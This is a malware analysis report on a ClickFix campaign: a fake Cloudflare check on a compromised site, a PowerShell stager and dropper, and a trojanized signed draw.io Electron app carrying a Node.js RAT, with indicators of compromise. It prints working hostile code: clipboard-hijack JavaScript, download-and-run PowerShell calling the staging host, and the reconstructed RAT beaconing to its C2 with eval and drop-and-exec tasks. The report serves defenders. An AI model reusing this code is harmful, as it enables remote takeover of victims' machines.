

# Technical analysis of a ClickFix campaign with a signed Electron dropper and a Node.js RAT

- **Case:** compromised institutional website serving a fake verification overlay (Cloudflare Turnstile clone) that delivers an Electron-based RAT to the visitor by hijacking the clipboard and tricking the user into manual execution.
- **Date:** 2026.05.04

> Combined report. The PE/Authenticode work, asar dissection, and Python reimplementation of the decoder were carried out by the team. The complete deobfuscated strings table, SIEM queries, Suricata rules, campaign fingerprint, and the `ClickFix_Extractor` toolkit (https://github.com/Czr-Xploit/ClickFix_Extractor) come from the parallel analysis by Czr.Xploit. The two work streams reached convergent conclusions through independent paths, which adds confidence to the final result.
>
> Due to legal considerations, the victim site is referenced throughout the report as "the compromised site" and the domain appears defanged (`yourdomain[.]com`) in narrative sections. The IOCs and queries listed retain their actionable values so defenders can operate on them. The organization that owns the domain is not accused in this document; their site was compromised and abused.

---
## Executive summary

An active ClickFix campaign delivers an Electron-based Remote Access Trojan (RAT) via a fake Cloudflare human-verification page hosted on a compromised institutional site. The chain consists of four stages:

1. **Delivery:** an HTML overlay cloned from Cloudflare Turnstile, served on top of the legitimate content of the victim site, hijacks the global `copy` event and drops an obfuscated PowerShell command into the visitor's clipboard. The overlay's instructions induce the user to execute it via the `Win+R` Run dialog.
2. **PowerShell stager:** `iex(irm 'ccudmcx[.]xyz/u')` obfuscated by string concatenation. Downloads a larger secondary script.
3. **PS1 dropper with `finally{}` block:** simulates an innocuous PowerShell tutorial. The `finally` block writes `runner.ps1` to `%TEMP%`, downloads `update.zip` (134 MB) from the staging domain, and extracts its contents to `%LOCALAPPDATA%\UpdateApp\`.
4. **Trojanized Electron app:** the `draw.io.exe` binary extracted from the ZIP is the original drawio.desktop v19.0.3 executable signed by JGraph Ltd. The modified component is `resources/app.asar`, where `electron.js` was replaced with a Node.js RAT loader obfuscated with obfuscator.io. The load is viable because Electron 19 does not validate the integrity of the asar (the `enableEmbeddedAsarIntegrityValidation` flag was introduced in later versions).

The RAT keeps an HTTPS POST beacon every 65 seconds towards `chimefusion[.]com/u/`, exfiltrating a persistent identifier, the host's `COMPUTERNAME`, and `USERNAME`. It supports two remote execution modes: `eval()` of arbitrary JavaScript in Electron's Node context, or dropping base64-encoded files with auto-execution of the first one ending in `.exe`. Persistence is established via `app.setLoginItemSettings({openAtLogin:true})`, which creates an entry in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.

The most relevant component from an evasion perspective is the reuse of the legitimate JGraph Ltd Authenticode signature. The attacker did not forge the signature or compromise the publisher's key: they took a valid binary and combined it with a malicious asar. SmartScreen and EDRs based on signature reputation observe a trusted publisher and allow execution.

### Key statistics

| Metric                          | Value                          |
| ------------------------------- | ------------------------------ |
| Identified domains              | 3 (victim site, staging, C2)   |
| Attack stages                   | 4                              |
| Obfuscated strings              | 1,015                          |
| Strings successfully replaced   | 1,059 substitutions, 0 failures |
| Beacon interval                 | 65,000 ms                      |
| Applicable MITRE ATT&CK techniques | 17                          |
| C2 execution modes              | 2 (JS eval or drop+exec base64) |
|                                 |                                |

---

## Attack chain

```
Compromised site (yourdomain[.]com) serving fake overlay
    │ click on "Verify you are human"
    │
    ▼
Stage 1. JS drops in the clipboard:
    powershell "Write-Host(&{iex(irm(('ccud'+'mcx')+('.x'+'yz/u')))})2>$null"
    │ Win+R, Ctrl+V, Enter
    │
    ▼
Stage 2. ccudmcx[.]xyz/u/  →  script.ps1 (decoy + dropper in finally)
    │ Set-Content $env:TEMP\runner.ps1
    │ Start-Process powershell -WindowStyle Hidden -ExecutionPolicy Bypass
    │
    ▼
Stage 3. runner.ps1
    │ Invoke-WebRequest ccudmcx[.]xyz/update.zip → %TEMP%\update26.zip
    │ Expand-Archive → %LOCALAPPDATA%\UpdateApp\
    │ Start-Process %LOCALAPPDATA%\UpdateApp\draw.io.exe
    │
    ▼
Stage 4. draw.io.exe signed by JGraph loads resources\app.asar
    The asar contains a replaced electron.js: obfuscated Node.js RAT.
    Persistence + 65s beacon + RCE via eval() or drop+exec.
```

---

## Stage 1. Delivery page and clipboard hijack

The team retrieved the HTML served by the victim site with `curl --compressed` (the response uses Brotli encoding). The headers document the infrastructure:

```
HTTP/2 200
content-encoding: br
server: Sucuri/Cloudproxy
x-sucuri-cache: HIT
x-sucuri-id: 17028
content-security-policy: upgrade-insecure-requests;
```

The `x-sucuri-cache: HIT` header confirms the malicious content is cached on the WAF, indicating minimal payload persistence at origin and ruling out User-Agent-based selective delivery. The body is a visual replica of Cloudflare's "Just a moment..." interstitial: SVG logo, color palette, dark-mode support (`@media (prefers-color-scheme: dark)`), fake Ray ID, and "Privacy" / "Help" links. The visual quality of the clone is high.

The payload sits at the end of the document, inside a minified `<script>`:

```js
(function() {
    var mw = "powershell \"Write-Host(&{iex(irm(('ccud'+'mcx')+('.x'+'yz\\/u')))})2>$null\"";

    var zc  = document.getElementById('Qifagur');     // dialog container
    var x   = document.getElementById('Tetoxa');      // Verify button
    var jy  = document.getElementById('Lekekixevoh'); // Verification ID display

    var qx = document.querySelectorAll('.step0');     // initial spinner
    var j  = document.querySelectorAll('.step1');     // button
    var qi = document.querySelectorAll('.step2');     // instructions
    var kc = document.querySelectorAll('.step3');     // completed

    function g() { return Math.floor(100000 + Math.random() * 900000); }

    function o(t) {
        var b = document.createElement('textarea');
        b.value = t;
        b.style.position = 'absolute';
        b.style.left = '-9999px';
        document.body.appendChild(b);
        b.select();
        document.execCommand('copy');
        document.body.removeChild(b);
    }

    var p = g(); jy.textContent = p;

    qx.forEach(function(e) { e.style.display = 'block'; e.classList.add('active'); });
    setTimeout(function() {
        qx.forEach(function(e) { e.style.display = 'none'; e.classList.remove('active'); });
        j.forEach(function(e) { e.style.display = 'block'; e.classList.add('active'); });
    }, 2500);

    x.addEventListener('click', function() {
        var ug = mw + ' # Security check ✔️ I\'m not a robot Verification ID: ' + p;
        o(ug);
    });

    document.addEventListener('copy', function(e) {
        e.preventDefault();
        var ug = mw + ' # Security check ✔️ I\'m not a robot Verification ID: ' + p;
        if (e.clipboardData) e.clipboardData.setData('text/plain', ug);
        else if (window.clipboardData) window.clipboardData.setData('Text', ug);
    });
})();
```

The script implements two complementary vectors. First, clicking the verification checkbox copies the command to the clipboard via a hidden `textarea` and `document.execCommand('copy')`. Second, it overrides the global `copy` event handler: any user attempt to copy arbitrary content from the page ends up replacing the clipboard contents with the attacker's command. The operator builds in redundancy to ensure payload delivery even if the user interacts in unexpected ways.

To reduce user suspicion when seeing a long command in the Run dialog, the JS concatenates a PowerShell comment with a fake alphanumeric identifier:

```text
powershell "Write-Host(...)2>$null" # Security check ✔️ I'm not a robot Verification ID: 478392
```

The "Verification ID" is decorative. It is generated with `Math.floor(100000 + Math.random() * 900000)` on each load and changes between visits. PowerShell treats anything after `#` as a comment, so it does not affect execution. The purpose is social engineering: present the command as a legitimate verification code.

The instructions shown to the visitor after the first click:

> 1. Press & hold the Windows Key + R.
> 2. In the verification window, press Ctrl + V.
> 3. Press Enter on your keyboard to finish.
>
> You will observe and agree:
> ✅ "I am not a robot, reCAPTCHA Verification ID: {random}"



Resolution of the command obfuscation:

```text
('ccud'+'mcx')+('.x'+'yz\/u')   →  "ccudmcx.xyz/u"
irm                             →  Invoke-RestMethod
iex                             →  Invoke-Expression
&{ ... }                        →  script block (prevents iex from emitting the code)
2>$null                         →  silences stderr
Write-Host(...)                 →  innocuous facade
```

Functional equivalent: `powershell -c "iex(irm 'https://ccudmcx[.]xyz/u')"`. Trivial obfuscation pattern but effective against string-match detections.

---

## Stage 2. PowerShell stager with finally{} abuse

`/u` redirects with a 301 to `/u/`, where the server delivers:

```
HTTP/2 200
content-type: application/octet-stream
content-disposition: attachment; filename="script.ps1"
server: cloudflare
```

The team saved the response to `stage2_payload.txt`. SHA-256: `85b38a1adaf13650d06966572e402415ac3aa7ec9f53adb6e5eb48ae8b0f9974`, 2,564 bytes:

```powershell
$logFolder = "$env:LOCALAPPDATA\Microsoft\Cache"
if (!(Test-Path $logFolder)) { New-Item -ItemType Directory -Path $logFolder -Force | Out-Null }
$logFile = "$logFolder\demo.log"

function Write-Log($Message) {
    $ts = Get-Date -Format "HH:mm:ss"
    "[$ts] $Message" | Out-File -FilePath $logFile -Append
}

try {
    # Decoy section. Simulates a basic PowerShell tutorial.
    $name="PowerShell"; $number=10; $items=@("apple","banana","cherry")
    $info=@{ Language="PowerShell"; Year=2006 }
    Write-Log "String: $name, Number: $number"
    if ($number -gt 5) { Write-Log "$number is greater than 5" } ...
    foreach ($item in $items) { Write-Log "Fruit: $item" }
    function Get-Square($n) { return $n * $n }
    Write-Log "Script completed successfully"
} catch {
    Write-Log "Unexpected error: $($_.Exception.Message)"
} finally {
    # Real payload. This block runs regardless of the try/catch outcome.
    $script = @'
$downloadUrl     = "https://ccudmcx.xyz/update.zip"
$appDataPath     = [Environment]::GetFolderPath("LocalApplicationData")
$subFolder       = "UpdateApp"
$destinationPath = Join-Path $appDataPath $subFolder
$zipPath         = Join-Path $env:TEMP "update26.zip"
...
Invoke-WebRequest -Uri $downloadUrl -OutFile $zipPath -UseBasicParsing
Expand-Archive    -Path $zipPath -DestinationPath $destinationPath -Force
Remove-Item       $zipPath -Force
Start-Process     -FilePath "$destinationPath\draw.io.exe"
'@
    $path = "$env:TEMP\runner.ps1"
    $script | Set-Content -Path $path -Encoding UTF8
    Start-Process powershell -ArgumentList "-ExecutionPolicy Bypass -File `"$path`"" -WindowStyle Hidden
}
```

Three relevant elements. The `try/catch/finally` block guarantees dropper execution even if the decoy code raises exceptions. The path `%LOCALAPPDATA%\Microsoft\Cache\demo.log` mimics a system telemetry folder and reduces suspicion during manual inspection. The final stage is launched with `-ExecutionPolicy Bypass` and `-WindowStyle Hidden`, bypassing the interactive policy gate and suppressing any visible window.

Summary of evasion techniques identified at this stage:

| Technique | Implementation | Purpose |
|---|---|---|
| Decoy try{} block | benign logs in `demo.log` | a superficial review sees an apparently educational script |
| finally{} abuse | payload in `finally{}`, guaranteed execution | tolerates decoy errors without aborting the malicious flow |
| Indirect execution | `runner.ps1` written to disk and launched in a separate process | decouples the download code from the original observable command |
| Hidden window | `-WindowStyle Hidden` | no visual elements |
| Policy bypass | `-ExecutionPolicy Bypass` | avoids default restrictions |
| ZIP deletion | `Remove-Item $zipPath -Force` | minimizes post-extraction evidence |
| `UseBasicParsing` | no IE engine dependency | compatible with hosts without Internet Explorer installed |

---

## Stages 3 and 4. Trojanized Electron package

`update.zip` was retrieved with `curl` without execution. 134 MB, SHA-256 `d942e9cfc0ca32a3d66ec690090ee22dca74953efed6889fb2292de36f5e39fd`. The contents correspond to a complete drawio.desktop build:

| File | Size | SHA-256 | Verdict |
|---|---|---|---|
| `draw.io.exe` | 148,962,456 | `bfcd61c6b2dc98354f1a1a6e20a3d61c94530f2c39f3f4c708252da4db57ba9f` | Genuine, signed by JGraph Ltd |
| `resources/app.asar` | 158,440,947 | `0642708ec7c25dec3168f1ab275a29bfd3cf69fe3afc3d5c6eadfa6750102883` | Modified. `electron.js` replaced |
| `resources/app-update.yml` | 119 | `0ed01d7f...` | Untouched |
| `ffmpeg.dll`, `d3dcompiler_47.dll`, `libEGL.dll`, `libGLESv2.dll`, `vulkan-1.dll`, `vk_swiftshader.dll`, locales/*.pak, ... | various | various | Chromium/Electron runtime, not modified |

PE analysis of `draw.io.exe` with `objdump -p`:

```
Format: PE32+ (x86.64), 15 sections
Subsystem: Windows GUI
Time/Date stamp: 2022.06.02 22:31:56 UTC
DllCharacteristics: HIGH_ENTROPY_VA, DYNAMIC_BASE, NX_COMPAT, GUARD_CF, TERMINAL_SERVICE_AWARE
Imports: ffmpeg.dll, UIAutomationCore.dll, dbghelp.dll, MSIMG32.dll, OLEAUT32.dll,
         WINMM.dll, WS2_32.dll, KERNEL32.dll, CRYPT32.dll, IPHLPAPI.dll,
         VERSION.dll, USERENV.dll, DWrite.dll, WINSPOOL.DRV, Secur32.dll,
         WINHTTP.dll, dhcpcsvc.dll
Security Directory @ file_offset 0x08e0ae00, size 0x4e98 (20,120 bytes)
```

The 2022.06.02 timestamp matches the official drawio.desktop v19.0.3 release. Imports, sections, and DLL characteristics match a standard Electron 19 / Chromium 102 build. No PE injection indicators are observed.

The team extracted the Security Directory blob directly from the PE via a Python parser (the VM did not have `osslsigncode` installed and the apt repository had connectivity issues), persisted the result to `drawio_authenticode.p7`, and processed it with `strings` to identify the trust chain:

```
Subject:        CN = "JGraph Ltd", O = "JGraph Ltd", L = "Northampton", C = GB
Subject email:  https://github.com/jgraph/drawio
Signing CA:     "SSL.com Code Signing Intermediate CA RSA R1"
Root:           "SSL.com Root Certification Authority RSA"
Counter-signer: "Certum Trusted Network CA"
Timestamp:      "DigiCert Trusted G4 RSA4096 SHA256 TimeStamping CA"
                "DigiCert Timestamp 2022"
```

The signature does indeed correspond to JGraph Ltd. The attacker did not forge it, did not compromise the publisher's private key, and did not clone the certificate. They took the binary intact and modified only the adjacent `app.asar`. This tactic works because Electron 19 loads the asar file as data without validating its integrity. The `enableEmbeddedAsarIntegrityValidation` flag, which mitigates this vector, was introduced in Electron 22 and later. As a consequence, SmartScreen logs "JGraph Ltd, known publisher", signature-reputation EDRs flag the binary as trusted, and the attacker's code runs inside a signed process.

This is the most significant component of the attack from an evasion standpoint. The official drawio.desktop v19.0.3 release is still downloadable and, as of this report, continues to pass "binary signed by known publisher" checks without being blocked.

`ffmpeg.dll` was analyzed separately with `strings -e l` and `objdump -p`. The output matches the symbols expected from FFmpeg/Chromium: `Huffyuv FFmpeg variant`, `Electronic Arts CMV video`, `libavcodec` codecs. No URLs, added sections, or anomalous imports detected. **No DLL sideloading observed.** Malicious activity resides entirely in the JavaScript code interpreted by Electron.

### asar modifications

The team extracted the asar header via a custom Python parser (4 pickle bytes, JSON header, body) and enumerated the contents:

```
electron.js              57,822 bytes   ← modified component
electron-preload.js                     ← intact
package.json    {"name":"draw.io","version":"19.0.3","main":"electron.js",...}
disableUpdate.js                        ← returns false, irrelevant to the flow
templates/, *.html, workbox-*.js        ← intact
```

Only the entry point was replaced. The rest of the package remains as decoration so a visual inspection of the file still looks legitimate. `package.json` was not modified, so `"main": "electron.js"` points exactly to the file rewritten by the attacker.

---

## RAT analysis

`asar_electron.js` is obfuscated with obfuscator.io in its two-argument variant. The decoder signature is `d(idx, key)`, where `idx` is an index and `key` is the RC4 key specific to the string. The literal array lives in `function c() { const W = [...]; ...; return W; }`.

The team identified the obfuscation components:

- 1,015-entry array inside `c()`. Each entry is base64 text encoded with a reordered alphabet (lowercase, uppercase, digits, `+/=`).
- Decoder `d(W, o)` that: (1) subtracts 229 from the received index, (2) retrieves the corresponding entry from the array, (3) decodes with custom-alphabet base64, (4) applies RC4 with the key from the second argument, (5) returns the resulting UTF-8 string.
- No rotation. The module was built with `rotateStringArray: false`, so the array remains static.

The team reimplemented both primitives in Python (`deobfuscate.py`), validated equivalence with a five-string control sanity check, and applied a global substitution with `re.sub` over the entire file using the pattern `(\w+)\s*\(\s*(\d+)\s*,\s*"([^"]{2,8})"\s*\)`. The process replaced every decoder call with the corresponding literal.

Result: 1,059 successful replacements, 0 failures. The readable source ended up in `electron_decoded.js`. An additional pass with a homegrown pretty-printer (Python, brace-aware) produced `electron_pretty.js` with 1,917 formatted lines.

### Encryption scheme

Each sensitive string is accessed as `bx(index, key)`. Example: `bx(264, "hH#x")`.

```
bx(264, "hH#x")
  │      │
  │      └─ String-specific RC4 key
  └─ Array index (264 - 229 = real position 35)
```

**Step 1: base64 with modified alphabet.**

```
Standard    : ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=
Attacker    : abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=
```

Lowercase letters precede uppercase. This inversion defeats any standard base64 decoder and any regular expression that assumes the canonical alphabet to detect encoded blocks.

**Step 2: per-string RC4 key.**

```js
var W = function(W, c) {  // W = already-decoded base64, c = key
    let o=[], d=0, k, e="";
    W = t(W);

    // KSA
    for (n=0; n<256; n++) { o[n] = n; }
    for (n=0; n<256; n++) {
        d = (d + o[n] + c["charCodeAt"](n % c["length"])) % 256;
        k=o[n]; o[n]=o[d]; o[d]=k;
    }

    // PRGA
    n=0; d=0;
    for (let c=0; c < W["length"]; c++) {
        n = (n+1) % 256;
        d = (d + o[n]) % 256;
        k=o[n]; o[n]=o[d]; o[d]=k;
        e += String["fromCharCode"](
            W["charCodeAt"](c) ^ o[(o[n]+o[d]) % 256]
        );
    }
    return e;
};
```

Equivalent Python implementation (`deobfuscate.py`):

```python
ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/="

def custom_b64_decode(s: str) -> bytes:
    bits, bit_count, output = 0, 0, []
    for ch in s:
        val = ALPHABET.find(ch)
        if val == -1 or ch == '=': continue
        bits = (bits << 6) | val
        bit_count += 6
        if bit_count >= 8:
            bit_count -= 8
            output.append((bits >> bit_count) & 0xFF)
    return bytes(output)

def rc4(key: str, data: str) -> str:
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + ord(key[i % len(key)])) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0; out = []
    for ch in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(chr(ord(ch) ^ S[(S[i] + S[j]) % 256]))
    return ''.join(out)

def decode(encoded: str, key: str) -> str:
    raw = custom_b64_decode(encoded).decode('latin-1')
    return rc4(key, raw)

# Sanity check:
# decode("eSkPW7y0WPX9jCkOW7e/W4PdW6XKW73dRmkMna", "hH#x")
# →  "chimefusion.com/u/"
```

### Operational code (lines 1 to 267)

Annotated reconstruction of the RAT's behavior:

```js
const { app: g } = require("electron");
const h = require("fs");
const i = require("https");

// HTTP wrapper over https.request, disables certificate validation.
function j(url, opts = {}) {
    return new Promise((resolve, reject) => {
        const parts = url.split("/");
        const hostname = parts[0];
        const path = "/" + parts.slice(1).join("/");
        const req = i.request({
            hostname, path,
            method: opts.method || "GET",
            headers: opts.headers || {},
            rejectUnauthorized: false
        }, res => {
            const chunks = [];
            res.on("data",  c => chunks.push(c));
            res.on("end",  () => {
                const buf = Buffer.concat(chunks);
                resolve({
                    ok:      res.statusCode >= 200 && res.statusCode < 300,
                    status:  res.statusCode,
                    headers: res.headers,
                    json: () => Promise.resolve(JSON.parse(buf.toString())),
                    text: () => Promise.resolve(buf.toString())
                });
            });
        });
        req.on("error", reject);
        if (opts.body) req.write(opts.body);
        req.end();
    });
}

// C2.
const k = "chimefusion.com/u/";

// Path helpers.
function pathJoin(...W) { return W.join("\\"); }
function dirname(W)    { const o = W.split("\\"); o.pop(); return o.join("\\") || "\\"; }

// Persistent victim ID at %APPDATA%\setup.txt
function getVictimId() {
    const f = pathJoin(process.env.APPDATA, "setup.txt");
    if (h.existsSync(f)) return h.readFileSync(f, "utf8").trim();
    const id = Math.random().toString(36).slice(2, 10);
    h.writeFileSync(f, id);
    return id;
}

const sleep = ms => new Promise(r => setTimeout(r, ms));

// Beacon to the C2.
async function beacon() {
    try {
        const res = await j(k, {
            method: "POST",
            headers: { "Content-Type": "application/json" },
            body: JSON.stringify([
                getVictimId(),
                process.env.COMPUTERNAME,
                process.env.USERNAME
            ])
        });
        const cmd = await res.json();
        if (cmd.task) executeTask(cmd.task);
    } catch (e) { console.log(e); }
}

// Executor for tasks received from the C2.
function executeTask(s) {
    if (s.e) {                           // "eval" task type
        try { eval(s.e); } catch (_) {}
        return;
    }
    // "drop & run" task type
    const dir = pathJoin(process.env.TEMP, String(Date.now()));
    h.mkdirSync(dir, { recursive: true });
    const files = s.files || {};
    let exeToRun = null;
    for (const [name, b64] of Object.entries(files)) {
        const out  = pathJoin(dir, name);
        const sub  = dirname(out);
        if (sub !== dir) h.mkdirSync(sub, { recursive: true });
        h.writeFileSync(out, Buffer.from(b64, "base64"));
        if (name.endsWith(".exe")) exeToRun = out;
    }
    if (exeToRun) require("child_process").exec(`"${exeToRun}"`, { cwd: dir });
}

// Persistence. On Windows this maps to an entry in HKCU\...\Run.
g.setLoginItemSettings({
    openAtLogin: true,
    openAsHidden: false,
    path: g.getPath("exe"),
    args: []
});

// Infinite beacon loop, 65-second interval.
async function loop() {
    while (true) {
        await beacon();
        await sleep(65_000);
    }
}

// Main IIFE.
(async () => {
    await loop();   // This call never returns.
    /* The legitimate drawio code is still present further down the file
       (BrowserWindow, Menu, ipcMain, autoUpdater) but is unreachable.
       It never runs. */
})();
```

The last block is operationally significant. The main IIFE invokes `await loop()` before initializing any drawio component. Because `loop()` never finishes, the legitimate application code remains unreachable. The victim sees an active `draw.io.exe` process in Task Manager but with no window, no tray icon, and no UI activity — only C2 traffic.

A conclusion derived from the implant's architecture: **it does not include a keylogger, cookie stealer, wallet reader, screenshot capture, or specific collection modules.** It functions as a pure loader. The real capability of the operation depends on the payloads the operator pushes through `task.e` or `task.files`. Since `eval()` runs in Electron's Node context and `child_process.exec` allows arbitrary execution, the available surface includes commercial stealer deployment, RDP tools, ransomware, lateral-movement agents, or any combination thereof. Effective capability is total.

### Anti-analysis mechanism

The decoder includes a class with methods `RxbwXB`, `NsLnHG`, `eMiPXE` that builds a regular expression and evaluates it against `function.toString()`. This is the standard obfuscator.io pattern used to detect tampering with `Function.prototype.toString` by debuggers or instrumentation tools. If hooking is detected, the regular expression fails and the flow takes an alternative branch that introduces noise. Under direct execution with Node, the check passes and behavior is transparent. Included as a reference for YARA rules based on textual signature.

```js
const W = function(W) {
    this["WkoEMv"]  = W;
    this["LjzrrV"]  = [1, 0, 0];
    this["sjtiEX"]  = function() { return "newState" };
    this["LasAqb"]  = "\\w+ *\\(\\) *{\\w+ *";
    this["tXLlbx"]  = "['|\"].+['|\"];? *}";
};

W["prototype"]["RxbwXB"] = function() {
    const W = new RegExp(this["LasAqb"] + this["tXLlbx"]);
    const c = W["test"](this["sjtiEX"]["toString"]()) ?
        --this["LjzrrV"][1] :
        --this["LjzrrV"][0];
    return this["NsLnHG"](c);
};
```

---

## Deobfuscated strings table

Selection of the relevant entries. The complete decoded array is preserved in `deobfuscated_strings.json`.

### Network and C2

| Index | Key | Value | Purpose |
|---|---|---|---|
| 238 | bp5r | `https` | HTTP module |
| 244 | OSNE | `GET` | default method |
| 264 | hH#x | **`chimefusion.com/u/`** | **C2 endpoint** |
| 278 | KZf( | `POST` | beacon method |
| 279 | oE9X | `application/json` | beacon content-type |
| 281 | vSnX | `json` | response parser |
| 282 | cPaY | `task` | C2 response key |
| 343 | uNNH | `https://convert.diagrams.net/node/export` | legitimate drawio URL (cover traffic) |

### Filesystem and identity

| Index | Key | Value | Purpose |
|---|---|---|---|
| 269 | c#qa | `setup.txt` | UUID persistence |
| 270 | bp5r | `existsSync` | file check |
| 271 | cPaY | `readFileSync` | UUID read |
| 272 | yymO | `utf8` | encoding |
| 273 | VXbq | `trim` | string normalization |
| 274 | OSNE | `random` | Math.random() for UUID |
| 275 | nOgL | `toString` | base36 conversion |
| 276 | uNNH | `slice` | UUID substring |
| 277 | i@Fs | `writeFileSync` | UUID write |
| 285 | rk]J | `now` | Date.now() for drop dir |
| 287 | VXbq | `files` | files key in C2 response |
| 292 | PRE$ | `base64` | decoder |
| 294 | Emk2 | `.exe` | executable suffix |

### Execution and persistence

| Index | Key | Value | Purpose |
|---|---|---|---|
| 295 | 7^k9 | `child_process` | execution module |
| 296 | KZf( | `exec` | command invocation |
| 297 | $(YR | `setLoginItemSettings` | **persistence API** |
| 298 | %5yA | `getPath` | executable path resolution |
| 299 | yymO | `exe` | path type |
| 313 | Emk2 | `child_process` | secondary reference |
| 314 | s0$R | `spawn` | process creation |

### Module imports

| Index | Key | Value | Role |
|---|---|---|---|
| 237 | mZk4 | `electron` | framework |
| 238 | bp5r | `https` | HTTP client |
| 300 | OSNE | `fs/promises` | async filesystem |
| 301 | ]rFV | `path` | path utilities |
| 303 | zAD5 | `electron` | APIs |
| 306 | FaXl | `electron-log` | logging |
| 308 | $zG1 | `electron-updater` | autoupdate (present as dead code) |
| 311 | oE9X | `electron-store` | configuration (present as dead code) |

The `electron-updater` and `electron-store` imports (indices 308 and 311) are notable because the RAT never invokes them anywhere in the flow. They remain as inert code, possibly to reduce the divergence between the obfuscated blob and drawio's original `electron.js`, making a quick visual comparison against the legitimate source harder.

---

## C2 protocol

### Beacon (request)

```http
POST /u/ HTTP/1.1
Host: chimefusion.com
Content-Type: application/json
Connection: close

["k7x2m9p1", "DESKTOP-ABC123", "john.doe"]
```

Three fields in a JSON array. 8-character base36 UUID generated and persisted by the RAT in `%APPDATA%\setup.txt` on first run. `process.env.COMPUTERNAME` (Windows hostname). `process.env.USERNAME` (active user). The minimum set required for the operator to identify the victim in their panel.

### Response with no task

```json
{}
```

The RAT evaluates `if (data['task'])`. Any falsy value (including an object without the `task` key) makes the loop return to the 65-second sleep without executing anything.

### Response with eval task

```json
{
  "task": {
    "e": "require('child_process').exec('net user /domain', function(err, out) { /* exfil */ })"
  }
}
```

`task.e` is fed directly to `eval()` in Electron's Node context. Allows full access to `fs`, `child_process`, `https`, Windows registry via `child_process.exec("reg ...")`, screen capture through `webContents`, and any other API available in the runtime.

### Response with drop+exec

```json
{
  "task": {
    "files": {
      "payload.exe": "TVqQAAMAAAAEAAAA//8AALgAAAAAA...",
      "config.dat":  "dGhpcyBpcyBhIGNvbmZpZw=="
    }
  }
}
```

Each `name → base64` pair is decoded and written to `%TEMP%\<unix_ms>\name`. The first file whose name ends in `.exe` is executed via `child_process.exec(...)` with `cwd` pointing to the drop dir.

### Beacon timing

```
T=0s    → draw.io.exe starts
T=0s    → first beacon (immediate)
T=65s   → second beacon
T=130s  → third
T=N*65s → continues indefinitely
```

The 65-second interval is atypical. Standard families typically use round intervals (30, 60, 120 seconds) or randomized ones with jitter. The hardcoded value 65 acts as an actor fingerprint and is useful for pivoting.

---

## Attacker infrastructure

| Component | Detail |
|---|---|
| Victim site | `yourdomain[.]com`, IP `192.124.249.28`, behind Sucuri Cloudproxy |
| Staging | `ccudmcx[.]xyz`, IPs `104.21.0.150`, `172.67.151.28`, NS `ziggy/etienne.ns.cloudflare.com` |
| C2 | `chimefusion[.]com`, IPs `104.21.85.162`, `172.67.207.163`, NS `rene/tess.ns.cloudflare.com` |
| C2 endpoint | `POST https://chimefusion[.]com/u/`, `Content-Type: application/json`, body `["<id>","<host>","<user>"]` |
| CORS | open, `Access-Control-Allow-Origin: *`, `Methods: GET,POST,DELETE,PUT,OPTIONS` |
| HTTP behavior | `GET /` → 200, `GET /u` → 301 to `/u/`, `GET /u/` → 400 (rejects GET with `application/json`), POST without a valid body keeps the connection open until timeout |

Both malicious domains are hosted on Cloudflare with distinct NS pairs. A typical pattern from operators who separate staging and C&C into independent zones to minimize the impact of a partial takedown.

The team sent a test beacon to the C2 with dummy values `["analyst","ANALYST-LAB","analyst"]`. The server kept the connection open without delivering a response. We conclude the following: the endpoint is active and accepting TLS, and only delivers useful content when the body matches the expected format or when the operator has a queued task for the specific ID. The C2 instrumentation is minimalist, designed to leak no useful information to a casual onlooker.

---

## Indicators of compromise

### Network

```
Compromised site:    yourdomain[.]com           (192.124.249.28, Sucuri)
Staging domain:      ccudmcx[.]xyz              (Cloudflare)
Staging URLs:        https://ccudmcx[.]xyz/u
                     https://ccudmcx[.]xyz/u/             (script.ps1)
                     https://ccudmcx[.]xyz/update.zip
C2 domain:           chimefusion[.]com          (Cloudflare)
C2 endpoint:         POST https://chimefusion[.]com/u/
                     Body: ["<id>","<COMPUTERNAME>","<USERNAME>"]
```

### Hashes (SHA-256)

```
85b38a1adaf13650d06966572e402415ac3aa7ec9f53adb6e5eb48ae8b0f9974   script.ps1            (stage 2)
d942e9cfc0ca32a3d66ec690090ee22dca74953efed6889fb2292de36f5e39fd   update.zip            (stage 4)
0642708ec7c25dec3168f1ab275a29bfd3cf69fe3afc3d5c6eadfa6750102883   resources/app.asar    (modified)
